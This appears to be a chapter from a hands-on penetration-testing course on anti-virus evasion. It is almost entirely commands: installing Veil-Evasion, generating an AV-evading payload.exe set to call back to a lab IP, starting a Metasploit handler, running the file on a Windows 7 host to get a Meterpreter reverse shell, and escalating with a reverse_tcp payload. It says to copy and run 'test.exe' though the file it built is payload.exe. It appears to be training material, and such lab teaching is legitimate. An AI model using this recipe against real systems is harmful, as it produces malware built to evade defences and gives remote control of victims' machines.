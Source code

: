



#################################
# Chapter 5: Anti-Virus Evasion #
#################################
------------------------------------------------------------
- Now it is time to work on some anti-virus evasion. Veil is the new tool on the scene for AV evasion.
sudo pip install PyInstaller
        strategicsec
 
cd /home/strategicsec/toolz/Veil-Evasion/setup
 
sudo ./setup.sh
        /home/strategicsec/toolz/metasploit/            (when it asks for the path to Metasploit)
 
cd /home/strategicsec/toolz/Veil-Evasion/
 
sudo python Veil-Evasion.py
 
update
 
clean
 
y
 
list
 
info 5
 
use 5
 
set LHOST 192.168.230.128
 
info
 
generate
 
        payload         (when it asks for a base name)
 
exit
 
sudo mv /usr/share/veil-output/compiled/payload.exe /home/strategicsec/            (my file path for payload.exe might be different)
 
sudo chmod 777 /home/strategicsec/payload.exe
 
cd ~/toolz/metasploit
 
./msfconsole  -r /usr/share/veil-output/handlers/payload_handler.rc
 
 
- From your Win7 host use WinSCP to copy test.exe from the Ubuntu host to your Win7 desktop.
- double click test.exe and see if you get a Meterpreter session
 
 
 
use exploit/windows/local/ask
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.230.128                                            (Make sure you change this to your ubuntu ip address)
set LPORT 7799
exploit
 